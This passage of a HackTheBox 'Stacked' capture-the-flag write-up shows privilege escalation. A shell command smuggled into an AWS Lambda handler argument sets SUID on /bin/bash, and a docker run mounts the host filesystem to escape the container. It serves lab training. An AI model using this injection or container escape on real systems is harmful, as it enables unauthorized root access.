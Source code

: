 As such, I created a function with `chmod u+s /bin/bash` appended to the back since the `index.handler` string was already in a subshell.

```
$ aws lambda create-function --function-name "test1" --zip-file fileb://function.zip --handler 'index.handler; $(chmod u+s /bin/bash)' --runtime nodejs12.x --endpoint-url http://s3-testing.stacked.htb --role arn:aws:iam::123456789012:role/lambda-ex

$ aws lambda invoke --function-name test1 --endpoint-url http://s3-testing.stacked.htb out
```

Afterwards, I could become `root`:

![](../../../.gitbook/assets/htb-stacked-image-10.png)

### Docker --> Root File Access

The main thing I wanted to enumerate first was `docker`, since this container was spawning other containers. It might be possible that it had an image for the machine with the flag in it.

As `root`, I can use it to view the current running containers and images present:

```
# docker ps
CONTAINER ID        IMAGE                               COMMAND                  CREATED             STATUS              PORTS                                                                                                  NAMES
7dc04fa2d220        localstack/localstack-full:0.12.6   "docker-entrypoint.sh"   4 hours ago         Up 4 hours          127.0.0.1:443->443/tcp, 127.0.0.1:4566->4566/tcp, 127.0.0.1:4571->4571/tcp, 127.0.0.1:8080->8080/tcp   localstack_main

# docker image ls
REPOSITORY                   TAG                 IMAGE ID            CREATED             SIZE
localstack/localstack-full   0.12.6              7085b5de9f7c        2 years ago         888MB
localstack/localstack-full   <none>              0601ea177088        3 years ago         882MB
lambci/lambda                nodejs12.x          22a4ada8399c        3 years ago         390MB
lambci/lambda                nodejs10.x          db93be728e7b        3 years ago         385MB
lambci/lambda                nodejs8.10          5754fee26e6e        3 years ago         813MB
```

I checked each of them, and found that `localstack-full` was the correct one to use. 

```
# docker run -d -v /:/mnt -it 0601ea177088        
c5807cc0f7b2de02ee658a592c37560d5cb4f216f50cfd6a4501e51ff025d55a

# docker ps
CONTAINER ID        IMAGE                               COMMAND                  CREATED             STATUS              PORTS                                                                                                  NAMES
c5807cc0f7b2        0601ea177088                        "docker-entrypoint.sh"   29 seconds ago      Up 28 seconds       4566/tcp, 4571/tcp, 8080/tcp                                                                           elastic_maxwell
7dc04fa2d220        localstack/localstack-full:0.12.6   "docker-entrypoint.sh"   4 hours ago         Up 4 hours          127.0.0.1:443->443/tcp, 127.0.0.1:4566->4566/tcp, 127.0.0.1:4571->4571/tcp, 127.0.0.1:8080->8080/tcp   localstack_mai
```
